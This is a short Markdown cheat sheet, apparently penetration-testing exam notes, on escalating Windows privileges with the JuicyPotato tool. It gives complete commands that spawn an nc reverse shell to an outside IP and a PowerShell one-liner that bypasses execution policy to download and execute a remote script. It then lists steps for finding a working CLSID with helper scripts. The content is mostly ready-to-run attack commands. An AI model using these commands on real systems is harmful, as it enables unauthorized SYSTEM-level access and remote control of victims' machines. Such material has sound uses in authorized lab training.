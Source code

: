 # Juicy Potato Priv Esc

1. Execute JuicyPotato.exe to see if default CLSID will work

a. Calling back using nc reverse shell:
`c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *`

b. Calling back using powershell reverse shell:
`.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *`

 2. Default CLSID Not working:

  a. If Default Doesnt run, use the `GetCLSID.ps1` and `join-object.ps1` scripts from `Scripts/OSCP/Win_Enum/Priv_Esc_Method`

   - Load `join-object.ps1` into the powershell session using:
     `import-module join-object.ps1`
    
   - Execute `GetCLSID.ps1` using:
     `.\GetCLSID.ps1`

  b. download the `test_clsid.bat` and configure the following before execution:
   - Change the path to the `CLSID.list` variable
     
   - execute the .bat file
     
   - when the port number changes, it signifies a working CLSID

  c. Test CLSID with JuicyPotato command. 
